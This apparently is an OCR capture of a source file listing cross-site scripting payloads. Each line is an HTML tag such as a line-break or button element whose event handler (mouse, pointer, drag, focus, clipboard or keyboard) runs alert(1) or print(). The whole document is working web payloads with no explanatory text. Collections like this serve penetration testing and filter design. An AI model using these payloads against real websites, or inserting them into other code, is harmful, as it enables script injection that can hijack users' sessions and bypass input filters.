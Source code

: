 &lt;br onmouseover="alert(1)"&gt;test&lt;/br&gt;
&lt;br onmouseup="alert(1)"&gt;test&lt;/br&gt;
&lt;br onmousewheel=alert(1)&gt;requires scrolling
&lt;br onpaste="alert(1)" contenteditable&gt;test&lt;/br&gt;
&lt;br onpointerdown=alert(1)&gt;XSS&lt;/br&gt;
&lt;br onpointerenter=alert(1)&gt;XSS&lt;/br&gt;
&lt;br onpointerleave=alert(1)&gt;XSS&lt;/br&gt;
&lt;br onpointermove=alert(1)&gt;XSS&lt;/br&gt;
&lt;br onpointerout=alert(1)&gt;XSS&lt;/br&gt;
&lt;br onpointerover=alert(1)&gt;XSS&lt;/br&gt;
&lt;br onpointerrawupdate=alert(1)&gt;XSS&lt;/br&gt;
&lt;br onpointerup=alert(1)&gt;XSS&lt;/br&gt;
&lt;button autofocus onfocus=alert(1)&gt;test&lt;/button&gt;
&lt;button autofocus onfocusin=alert(1)&gt;test&lt;/button&gt;
&lt;button draggable="true" ondrag="alert(1)"&gt;test&lt;/button&gt;
&lt;button draggable="true" ondragend="alert(1)"&gt;test&lt;/button&gt;
&lt;button draggable="true" ondragenter="alert(1)"&gt;test&lt;/button&gt;
&lt;button draggable="true" ondragleave="alert(1)"&gt;test&lt;/button&gt;
&lt;button draggable="true" ondragstart="alert(1)"&gt;test&lt;/button&gt;
&lt;button id=x tabindex=1 onactivate=alert(1)&gt;&lt;/button&gt;
&lt;button id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/button&gt;
&lt;button id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/button&gt;&lt;input autofocus&gt;
&lt;button id=x tabindex=1 ondeactivate=print()&gt;&lt;/button&gt;&lt;input id=y autofocus&gt;
&lt;button onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;button onbeforecopy="alert(1)" contenteditable&gt;test&lt;/button&gt;
&lt;button onbeforecut="alert(1)" contenteditable&gt;test&lt;/button&gt;
&lt;button onbeforepaste="alert(1)" contenteditable&gt;test&lt;/button&gt;
&lt;button onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;button onblur=alert(1) id=x&gt;&lt;/button&gt;&lt;input autofocus&gt;
&lt;button onclick="alert(1)"&gt;test&lt;/button&gt;
&lt;button oncontextmenu="alert(1)"&gt;test&lt;/button&gt;
&lt;button oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;button oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;button ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/button&gt;
&lt;button onfocusout=alert(1) id=x&gt;&lt;/button&gt;&lt;input autofocus&gt;
&lt;button onkeydown="alert(1)" contenteditable&gt;test&lt;/button&gt;
&lt;button onkeypress="alert(1)" contenteditable&gt;test&lt;/button&gt;
&lt;button onkeyup="alert(1)" contenteditable&gt;test&lt;/button&gt;
&lt;button onmousedown="alert(1)"&gt;test&lt;/button&gt;
&lt;button onmouseenter="alert(1)"&gt;test&lt;/button&gt;
&lt;button onmouseleave="alert(1)"&gt;test&lt;/button&gt;
&lt;button onmousemove="alert(1)"&gt;test&lt;/button&gt;
